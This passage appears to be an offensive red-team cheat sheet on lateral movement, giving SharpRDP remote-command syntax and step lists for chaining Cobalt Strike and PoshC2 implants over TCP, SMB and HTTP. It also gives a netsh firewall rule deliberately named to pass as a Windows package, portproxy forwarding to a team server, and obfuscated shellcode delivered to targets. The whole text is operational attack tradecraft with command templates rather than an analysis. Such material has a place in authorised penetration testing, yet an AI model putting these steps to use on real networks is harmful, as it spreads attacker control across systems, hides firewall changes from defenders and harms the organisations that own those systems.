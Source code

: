 #### _Remote command execution using RDP:_
- ([SharpRDP](https://github.com/0xthirteen/SharpRDP)\): `SharpRDP.exe computername=<FQDN target> command="<command>" username=<domain>\<username> password=<password> (<exec=cmd | exec=powershell | elevated=taskmgr>)`

#### _Start remote Cobalt Strike P2P beacon:_
This technique can be used to chain multiple beacons together\. This method is the equivalent of a bind shell\. 
>this method requires you to manually ‘connect’ to the SMB/TCP server started by the payload and therefore it is advised to only use this method if you have full control over the execution time of the payload\. 
- 1\. Start a new "Beacon TCP" or "Beacon SMB" listener
- 2\. Create a payload for the started listener
- 3\. Deliver the payload to the target system and execute it\.
- 4\. Connect to the started beacon from an already established beacon:
	- TCP Beacon: `connect <target ip> <port>`
	- SMB Beacon: `link <target ip> <pipe name>`

#### _Start remote CS Pivot P2P beacon:_
This technique can be used to chain multiple beacons together\. This method is handy in situations where you do not know when the payload will be executed\. This method is the equivalent of a reverse shell\.
>If the current machine doesn't allow arbitrary ports inbound and you can’t  modify the firewall, you can't use this type of listener\.
- 1\. Start the Pivot Listener from an already established beacon: Pivoting > Listener
- 2\. Create a payload for the started pivot listener \(normal workflow\)
- 3\. Make the payload execute via whatever method to auto start the new beacon\. 

#### _Start remote PoshC2 Daisy Chaining beacon:_
Daisy\-chaining can be used to pivot through a network over HTTP and create a chain of implants in PoshC2\. 
- 1\. Make sure your session is elevated
- 2\. Start a daisy server and follow the configuration wizard \(make sure the port is not in use\): `startdaisy`
- 3\. If you are running the daisy server in a C\# implant, it is mandatory to manually add an inbound firewall rule \(PS implant does this automatically\) \(use an opsec firewall rule name like "@\{Microsoft\.ADD\.Windows\.Controller\_1000\.14393\.0\.0\_neutral\_neutral\_cw5n1h2txyewy?ms\-resource://Microsoft\.ADD\.Windows\.Controller/PackageDisplayName\}"\): `netsh advfirewall firewall add rule name="<name of rule>" dir=in action=allow protocol=tcp localport=<port configured on daisyserver>`
- 4\. It is recommended to add portwarding with ‘netsh interface portproxy’ from the daisy server to the team server\. This way payloads can be hosted there\. 
- 5\. Use any RCE method to start a new beacon on the target computer using the daisy generated shellcode \(shellcode is by default not obfuscated but can be used with process hollowing without a problem if hosted remotely and reflectively loaded\)\. 

#### _Start remote PoshC2 SMB named pipe beacon:_
This technique can be used to pivot through a network via SMB and create a chain of implants for PoshC2\. 
- 1\. Create an obfuscated payload that leverages the by donut obfuscated PBind C\# shellcode from PoshC2
- 2\. Use any available technique to remotely download and run the payload 
- 3\. Connect to the SMB named pipe bind shell \(if you modified the pipename and secret in the config file specify both values\): `pbind_connect <hostname> (<pipename>) (<secret>)`
